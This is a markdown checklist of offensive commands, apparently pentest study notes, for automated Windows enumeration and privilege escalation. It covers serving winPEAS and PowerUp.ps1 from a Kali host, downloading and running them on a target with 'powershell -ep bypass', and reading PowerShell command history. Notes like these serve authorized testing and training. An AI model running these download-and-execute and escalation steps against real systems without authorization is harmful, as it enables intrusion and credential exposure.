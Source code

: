 # Automated Windows Enumeration
## winPEAS.exe
- [ ] Copy and serve `winPEASx64.exe` on your Kali Machine
```
cp /usr/share/peass/winpeas/winPEASx64.exe .
python3 -m http.server 80
```

- [ ] Use the iwr cmdlet to download `winPEASx64.exe` on the Target Machine
```powershell
powershell iwr -uri http://192.168.xxx.xxx:80/winPEASx64.exe -Outfile winPEASx64.exe
```

- [ ] Use `winPEASx64.exe` on the Target Machine
```powershell
.\winPEASx64.exe
```
- Remember to leave exploits for last (Hold off the nuclear weapons)
## PowerUp.ps1
- [ ] Copy and serve `PowerUp.ps1` on your Kali Machine
```
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80
```

- [ ] Use the iwr cmdlet to download `PowerUp.ps1` on the Target Machine
```powershell
powershell iwr -uri http://192.168.xxx.xxx:80/PowerUp.ps1 -Outfile PowerUp.ps1
```

- [ ] Import `PowerUp.ps1` on the Target Machine
```
powershell -ep bypass
. .\PowerUp.ps1
```

- [ ] Run all the checks in the module on the Target Machine
```
Invoke-AllChecks
```
- [More PowerUp commands](PowerUp.ps1)

# Windows Enumeration and Privilege Escalation

## Command History
- [ ] List commands entered during the current session on the Target Machine
```powershell
Get-History
```

- [ ] List path of the history file from PSReadline on the Target Machine
```powershell
(Get-PSReadlineOption).HistorySavePath
```
